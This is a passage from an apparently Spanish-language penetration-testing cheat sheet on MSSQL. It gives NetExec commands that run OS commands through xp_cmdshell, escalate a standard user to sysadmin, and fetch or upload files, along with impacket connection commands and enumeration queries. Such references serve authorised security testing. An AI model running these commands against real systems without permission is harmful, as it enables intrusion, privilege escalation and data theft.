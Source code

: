 ####  4.4.2. <a name='netexec-2'></a>Netexec

```bash
# Realiza una consulta SQL
nxc mssql <RHOST> -u <USER> -p <PASSWORD> -q <SQL_QUERY>

# Ejecuta un comando en el sistema Windows si la opción `xp_cmdshell` esta habilitada para el usuario
nxc mssql <RHOST> -u <USER> -p <PASSWORD> -x <COMMAND>

# Enumera los privilegios para escalar de un usuario estandar a sysadmin
nxc mssql <RHOST> -u <USER> -p <PASSWORD> -M mssql_priv

# Aproveche los privilegios de MSSQL para escalar de un usuario estándar a un sysadmin.
nxc mssql <RHOST> -u <USER> -p <PASSWORD> -M mssql_priv -o ACTION=privesc

# Revertir los privilegios del usuario al usuario estándar.
nxc mssql <RHOST> -u <USER> -p <PASSWORD> -M mssql_priv -o ACTION=rollback

# Obtener un archivo remoto de una carpeta compartida.
nxc mssql <RHOST> -u <USER> -p <PASSWORD> --share <SHARE_NAME> --get-file <REMOTE_FILENAME> <OUTPUT_FILENAME>

# Subir un archivo local en una ubicación remota
nxc mssql <RHOST> -u <USER> -p <PASSWORD> --share <SHARE_NAME> --put-file <LOCAL_FILENAME> <REMOTE_FILENAME>
```
####  4.4.3. <a name='conexión'></a>Conexión

```powershell
sqlcmd -S <RHOST> -U <USERNAME> -P '<PASSWORD>'
```

```bash
impacket-mssqlclient <USERNAME>@<RHOST>
impacket-mssqlclient <USERNAME>@<RHOST> -windows-auth
impacket-mssqlclient -k -no-pass <RHOST>
impacket-mssqlclient <RHOST>/<USERNAME>:<USERNAME>@<RHOST> -windows-auth
```

```bash
export KRB5CCNAME=<USERNAME>.ccache
impacket-mssqlclient -k <RHOST>.<DOMAIN
```
####  4.4.4. <a name='comandos-básicos-1'></a>Comandos básicos

```sql
SELECT @@version;
SELECT name FROM sys.databases;
SELECT * FROM <DATABASE>.information_schema.tables;
SELECT * FROM <DATABASE>.dbo.users;
```
####  4.4.5. <a name='mostrar-el-contenido-de-una-base-de-datos'></a>Mostrar el contenido de una base de datos
